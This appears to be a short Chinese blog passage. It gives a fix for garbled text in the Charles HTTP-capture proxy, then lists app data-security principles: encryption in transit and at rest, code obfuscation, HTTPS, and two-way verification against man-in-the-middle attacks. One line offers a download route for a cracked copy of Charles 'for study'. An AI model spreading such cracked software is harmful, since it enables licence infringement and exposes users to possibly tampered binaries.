注意：Charles在使用中的乱码问题，可以显示包内容，然后打开info.plist文件，找到java目录下面的VMOptions，在后面添加一项：-Dfile.encoding=UTF-8
这里提供一个青花瓷破解版下载途径，供大家学习使用，商务需求，也请支持正版。
数据安全的原则

在网络上不允许传输用户隐私数据的明文,（即:App网络传输安全，指对数据从客户端传输到Server中间过程的加密，防止网络世界当中其他节点对数据的窃听）。
在本地不允许保存用户隐私数据的明文,（即:App数据存储安全，主要指在磁盘做数据持久化的时候所做的加密）。
App代码安全,（即:包括代码混淆，加密或者app加壳）。
要想非常安全的传输数据，建议使用https。抓包不可以，但是中间人攻击则有可能。建议双向验证防止中间人攻击，可以参考下文篇章。










